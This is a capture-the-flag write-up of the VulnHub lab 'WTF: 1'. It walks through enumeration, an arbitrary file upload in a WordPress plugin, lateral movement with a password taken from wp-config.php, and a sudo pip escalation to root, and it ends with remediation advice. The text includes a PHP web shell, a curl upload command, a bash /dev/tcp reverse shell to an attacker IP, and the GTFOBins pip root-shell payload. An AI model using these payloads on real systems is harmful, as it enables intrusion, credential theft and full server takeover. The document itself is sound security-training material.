

# WTF: 1

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [WTF: 1](https://www.vulnhub.com/entry/wtf-1,399/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*beginner - intermediate machine, your goal is to read /root/flag.txt. Remember, good enumeration! VMware based, you may have problems with VB.*


## Summary
WTF: 1 starts with the endpoint `/zhkh` that I find with `feroxbuster` after using the `raft-large-directories-lowercase.txt` wordlist of SecLists. I find a misconfigured `WordPress` site, and I have to use `iptables` to handle the resource redirections. While exploring the endpoints, I find the `/zhkh/wp-content/uploads/` directory listing, and there contains a `shell.php` file, by the error response and the file size I could guess the file is the [PHP reverse shell of the pentestmonkey repostiorie](https://github.com/pentestmonkey/php-reverse-shell), after research about `uigen_2019`, I identify the  [WordPress Plugin ACF](https://support.alertlogic.com/hc/en-us/articles/360016516111-WordPress-Plugin-ACF-Frontend-Display-2-0-5), and the `2.0.5` version is vulnerable to an Arbitrary file upload, and I also find a [PoC of the WordPress Plugin ACF Frontend Display 2.0.5](https://www.exploit-db.com/exploits/37514), after uploading a PHP web shell, I could get a reverse shell with the `www-data` user. In the server I find a password in a comment of the `wp-config.php` file, that password works with the user `ra`, then I get the shell of `ra`. The user `ra` has `sudo` privileges to run the `/usr/bin/pip` command, after following the instructions of the [pip binary in gtfobins](https://gtfobins.github.io/gtfobins/pip/) I could get the `root` shell and the `root` flag.

1. CWE-434: Unrestricted Upload of File with Dangerous Type
2. CWE-260: Password in Configuration File
3. CWE-269: Improper Privilege Management

#VMWare #Nmap #Feroxbuster #gtfobins #WordPress #WPScan #iptables #PHP #CMS #WebShell

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.0/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.107`.
 

And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.56.107
...SNIPPED...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
...SNIPPED...
```
And I identify 2 open ports, the `OpenSSH 7.9p1` service runs on `22` TCP, and the `Apache httpd 2.4.38` service runs on `80` TCP, and it runs on `Debian 10+deb10u1`

## Normal use case
Given I access `http://192.168.56.107`, then I can see:



And there is nothing else besides the '?'.

## Dynamic detection
Arbitrary file upload vulnerability in ACF frontend display plugin.

Given I can access `http://192.168.56.107`, but there is nothing useful so far, then I decided to use a dictionary attack to find endpoints, When I use the `feroxbuster` command with a list of SecLists:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt -u \
> http://192.168.56.107 -x php,inc.php,txt,html,md,jpg,xml,xls,sh,sql
```
Then I get the output:


But it finds nothing useful, and I was stuck, and I left the machine. When I decided to try again after several days, and I use the `feroxbuster` command again, but with a big word list from Seclist:
```shell
$ feroxbuster -w raft-large-directories-lowercase.txt -u \
> 'http://192.168.56.107/' -x php,inc.php,txt,html,md,jpg,xml,xls,sh,sql
```
Then it works, I find the endpoint `/zhkh`:


And it contains a `WordPress` site, when I access `/zhkh`, Then I can see:


And I can notice that there are requests to `192.168.1.13`, And I also saw that behavior in what `feroxbuster` found.

>**Note**: I already see this behaivor in the machines [08-wpwn-1](./../08-wpwn-1/README.md) and [14-infosecwarrior-ctf-2020-03](../14-infosecwarrior-ctf-2020-03/README.md)

When I redirect traffic with the `iptables` command:
```shell
$ sudo iptables -t nat -A OUTPUT -d 192.168.1.13 -j DNAT \
> --to-destination 192.168.56.107
```
And I also need to run:
```shell
$ sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```
And I check the `/zhkh` again, then it works:


When I use the `wpscan` command, and I use the `API token` that I got after registering on [WPScan website](https://wpscan.com),  and I use a list of Seclists:
```shell
$ wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://192.168.56.107/zhkh \
> [--plugins-detection aggressive] --api-token $WPSCAN_API --passwords <
> probable-v2-top1575.txt
```
Then it identifies a `WordPress` site with `version 5.3`, and it does not find any plugins, and it finds the user `admin`, and the upload directory has listing enabled:


When I explore the directory listing `/zhkh/wp-content/uploads/`, then I can see a file called `shell.php`:


When I open that file, then I can see an error:


When I google that error, then I find a post on the [HTB forum](https://forum.hackthebox.com/t/php-reverse-shell-connection-refused-111/2677):


And the problem is that the PHP code does not have the correct `IP:PORT`, and that makes me think that maybe I am dealing with a common script, when I google `PHP reverse shell`, then I find the [pentestmonkey repostiorie](https://github.com/pentestmonkey/php-reverse-shell), nd I can only compare the file size, and in the directory listing of the target machine says `5.4 KB`, and in the GitHub repository says `5.36 KB`:


And reading the error messages, they seem to be similar, and I guess maybe the file on the server was modified, and maybe accept `GET` or `POST` parameters. When I try to send multiple `GET` and `POST` requests with parameters, but nothing works, then I start thinking about a different approach. When I keep seeing the name of the directory, and I google `"uigen" WordPress`, then I can see the [WordPress Plugin ACF](https://support.alertlogic.com/hc/en-us/articles/360016516111-WordPress-Plugin-ACF-Frontend-Display-2-0-5):


And I can see that with the endpoint they show, I could upload files, when I try with a `GET` request:
```http
http://192.168.56.107/zhkh/wp-content/plugins/acf-frontend-display/js/
blueimp-jQuery-File-Upload-d45deb1/server/php/index.php
```
Then I can see that the endpoint exists:


When I check the `/zhkh/wp-content/uploads/` again, then now, there is the directory `uigen_2023`:


When I google `WordPress Plugin ACF Frontend Display 2.0.5 exploit`, Then I find a [PoC exploit](https://www.exploit-db.com/exploits/37514), and I am going to try it. When I write a web shell with PHP:
```shell
$ echo "<?php system(\$_GET['cmd']); ?>" > ws.php
```
And I use the following `curl` command to upload it:
```shell
$ curl -k -X POST -F "action=upload" -F "files=@$(pwd)/ws.php" \
> "http://192.168.56.107/zhkh/wp-content/plugins/acf-frontend-display/js/
> blueimp-jQuery-File-Upload-d45deb1/server/php/index.php"

[{"name":"ws.php","size":31,"type":"application\/octet-stream","url":
"http:\/\/192.168.1.13\/zhkh\/wp-content\/uploads\/uigen_2023ws.php",
"delete_url":"http:\/\/192.168.56.107\/zhkh\/wp-content\/plugins\/
acf-frontend-display\/js\/blueimp-jQuery-File-Upload-d45deb1\/server\/php
\/?file=ws.php","delete_type":"DELETE"}]
```
Then it seems that it worked, when I check the `/zhkh/wp-content/uploads/` again, then I can see the file `ws.php`:


When I send the `id` command with the `curl` command:
```shell
$ curl \
> "http://192.168.56.107/zhkh/wp-content/uploads/uigen_2023/ws.php?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I can conclude that `ACF Frontend Display` plugin is vulnerable, and despite `WPScan` did not identify any plugin, and it allows me to upload an arbitrary file, and `WordPress` will execute it.

## Exploitation
User password in the `wp-config` file and escalate with the sudo privileges.

Given I can access http://192.168.56.107, and I identify the endpoint `/zhkh/`, and it contains a `WordPress` site, and I was able to redirect traffic to fix `WordPress` requests, and I find a vulnerability in the plugin `ACF Frontend Display 2.0.5`, and it allows me to upload arbitrary files, and I could upload a web shell, then I will try to perform a reverse shell.

When I open a listener with the `nc` command:
```shell
$ nc -lnvp
```
And I send the reverse shell payload with the `curl` command:
```shell
$ curl \
> "http://192.168.56.107/zhkh/wp-content/uploads/uigen_2023/ws.php?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.56.101/1234%200>%261'"
```
Then it works:


## Lateral movement

I begin to explore the server, when I check the `wp-config.php` file:
```shell
$ www-data@wtf:/var/www/html/zhkh$ cat wp-config.php
...
define( 'DB_NAME', 'wp_database' );
...
define( 'DB_USER', 'ra' );
...
define( 'DB_PASSWORD', '912391929129' );
...
//`Db]f{He3HgO`(z
```
Then the comment looks like a password, when I check the users:
```shell
$ www-data@wtf:/var/www/html/zhkh$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
ra:x:1000:1000:ra,,,:/home/ra:/bin/bash
```
When I use the `ssh` command with the comment found in the `wp-config` file:
```shell
$ sshpass -p "`Db]f{He3HgO`(z" ssh ra@192.168.56.107
```
Then it works:


## Privilege escalation

When I check the `sudo` permissions:
```shell
$ ra@wtf:~$ sudo -l
...SNIPPED...
User ra may run the following commands on wtf:
    (root) NOPASSWD: /usr/bin/pip
```
When I search for that binary in `gtfobins`, then I find the [pip bianry in gtfobins](https://gtfobins.github.io/gtfobins/pip/), when I follow the steps, and I create a temporal directory:
```shell
$ ra@wtf:~$ TF=$(mktemp -d)
```
And I create the shell payload inside of it:
```shell
$ ra@wtf:~$ echo "import os;
> os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > \
> $TF/setup.py
```
And I use the `pip install` command:
```shell
$ ra@wtf:~$ sudo /usr/bin/pip install $TF
```
Then it works, I get the `root` shell, and I get the `root` flag:


## Remediation
Given I identified that the upload directory has a listing enabled, and I find a vulnerability in the plugin `ACF Frontend Display 2.0.5`, and I find a comment password in the `wp-config` file, and that password is reused for the user server, and the server user has sudo privileges with the `pip` binary, then restrict directory listing access to public users, and update to a non-vulnerable version of the plugin, and properly handle passwords, and do not allow a user to install packages with root privileges, then with that, it may not be possible to get the root's shell.